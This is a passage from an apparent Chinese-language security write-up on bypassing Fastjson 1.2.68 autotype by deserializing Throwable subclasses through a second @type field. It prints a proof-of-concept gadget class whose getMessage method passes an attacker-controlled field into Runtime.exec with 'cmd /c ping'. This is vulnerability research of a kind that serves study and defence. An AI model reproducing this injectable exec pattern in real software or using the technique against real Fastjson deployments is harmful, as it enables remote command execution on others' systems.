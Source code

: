 
ThrowableDeserializer是Throwable用来反序列化异常类的，当没有命中之前程序给定的类型时会进入createJavaBeanDeserializer()，其实就是JavaBeanDeserializer。



先看ThrowableDeserializer中

[![image.png](../resource/Fastjson%201.2.68%20bypass%20autotype/media/20200616111164.png)](https://y4er.com/img/uploads/20200616111164.png)



根据第二个`@type`获取类，并且传入指定期望类进行加载。因此可以反序列化继承Throwable的异常类，借助setter、getter等方法的自动调用，来挖掘gadget。浅蓝师傅给了一个gadget

```java
package org.chabug.fastjson.exploit;

import java.io.IOException;

public class ExecException extends Exception {

    private String domain;

    public ExecException() {
        super();
    }

    public String getDomain() {
        return domain;
    }

    public void setDomain(String domain) {
        this.domain = domain;
    }

    @Override
    public String getMessage() {
        try {
            Runtime.getRuntime().exec(new String[]{"cmd", "/c", "ping " + domain});
        } catch (IOException e) {
            return e.getMessage();
        }

        return super.getMessage();
    }
}
```

